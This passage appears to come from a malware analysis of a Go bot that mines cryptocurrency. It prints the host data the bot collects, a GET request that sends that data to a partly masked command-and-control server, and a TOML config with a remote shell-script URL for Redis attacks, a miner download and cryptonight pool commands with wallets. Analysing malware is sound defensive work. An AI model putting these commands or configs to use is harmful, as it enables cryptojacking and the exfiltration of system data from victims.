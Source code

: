 

While the goroutines are being executed concurrently, the payloads function obtain information about the system where it is running. For this purpose it is using a public Go package called [gopsutil](https://github.com/shirou/gopsutil). The following struct shows the information being retrieved:

```
type InfoStat struct {
    Hostname             string `json:"hostname"`
    Uptime               uint64 `json:"uptime"`
    BootTime             uint64 `json:"bootTime"`
    Procs                uint64 `json:"procs"`           // number of processes
    OS                   string `json:"os"`              // ex: freebsd, linux
    Platform             string `json:"platform"`        // ex: ubuntu, linuxmint
    PlatformFamily       string `json:"platformFamily"`  // ex: debian, rhel
    PlatformVersion      string `json:"platformVersion"` // version of the complete OS
    KernelVersion        string `json:"kernelVersion"`   // version of the OS kernel (if available)
    VirtualizationSystem string `json:"virtualizationSystem"`
    VirtualizationRole   string `json:"virtualizationRole"` // guest or host
    HostID               string `json:"hostid"`             // ex: uuid
}
```


This information is then sent to the C&C server via GET request. This GET request is also used to download the configuration, which is in [toml](https://github.com/naoina/toml) format:

```
http://r.cxxxxxxxg.com/s2.toml?Version=%d&NumCPU=%d&IntSize=%d&Hostname=%s&OS=%s&Platform=%s&Procs=%d&Uptime=%d
```

```
# IP = ""
DelaySecond = 300

[Update]
Version = 51
Url = "http://r.cxxxxxxxg.com/v51/lady"

[[Attacks]]
Method = "Redis"
Work = true
Max = 1
ShellUrl = "http://r.cxxxxxxxg.com/pm.sh?0703"

[Minerd]
Url = "http://r.cxxxxxxxg.com/minerd"
Cmds = [
    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:8080 -u 48vKMSzWMF8TCV...vQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x",
    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:6666 -u 48vKMSzWMF8TC...vQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x",

    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:8080 -u 47TS1NQvebb3...UA8EUaiuLiGa6wYtv5aoR8BmjYsDmTx9DQbfRX -p x",
    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:6666 -u 47TS1NQvebb3...UA8EUaiuLiGa6wYtv5aoR8BmjYsDmTx9DQbfRX -p x",

    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:8080 -u 448J3JccPv4D8X...HqNeLK8LguDFpJtcFJ6ZWr1NAbuEVmHEz5JftEox -p x",
    "-B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:6666 -u 448J3JccPv4D8X...HqNeLK8LguDFpJtcFJ6ZWr1NAbuEVmHEz5JftEox -p x",
]

[[IPRules]]
Url = "http://ipinfo.io/ip"
```